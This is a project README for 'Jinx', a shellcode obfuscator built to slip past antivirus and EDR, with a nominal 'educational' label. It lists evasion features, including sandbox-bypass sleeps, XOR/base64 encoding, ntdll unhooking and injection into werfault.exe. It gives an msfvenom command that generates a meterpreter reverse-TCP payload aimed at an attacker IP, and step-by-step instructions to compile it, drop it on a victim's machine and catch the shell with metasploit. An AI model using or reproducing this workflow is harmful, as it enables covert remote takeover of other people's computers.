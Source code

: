# Jinx (For Educational Purposes Only)
## Shellcode obfuscation tool to avoid AV/EDR
[![Python 3.10.4](https://img.shields.io/badge/python-3.10.4-yellow.svg)](https://www.python.org/) [![](https://img.shields.io/badge/C%2B%2B-14-blue)](https://visualstudio.microsoft.com/vs/features/cplusplus/)
## Features
 
- Custom Sleep Function - to bypass sandbox.
- Obfuscation - base64 encoding and xor encryption with randomly generated key.
- DLL Unhooking - full unhook of ntdll.dll.
- Process Injection - injecting the payload to werfault.exe.

## Installation and use
Jinx require [Python3](https://www.python.org/) and C++ compiler to run (we will be using [Visual Studio](https://visualstudio.microsoft.com/vs/features/cplusplus/))

In this demonstration we will generate a shellcode using msfvenom in our kali machine:
```bash
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=<Attacker IP> LPORT=1337 -f raw -o shellcode
```

Next we will use the obfuscator.py tool to obfuscate the shellcode:

```bash
python3 obfuscator.py <Path to the shellcode>/shellcode
```
Our shellcode then be obfuscated and saved in - obfuscatedPayload.bin with the key - key.bin.

Open Visual Studio create a project and import the files as follow:

- Headers Files > right click > Add > Existing Item > (base64.h, ntdll.h, resource.h)
- Resource Files > right click > Add > Existing Item > (key.bin, obfuscatedPayload.bin)
- Source Files > right click > Add > Existing Item > (base64.cpp, main.cpp, ntdll.cpp)

Build The project and drop the executable on the victim's machine.

On the attacker's machine use metasploit's multi/handler on port 1337
</br>
and on the victim's machine execute Jinx.
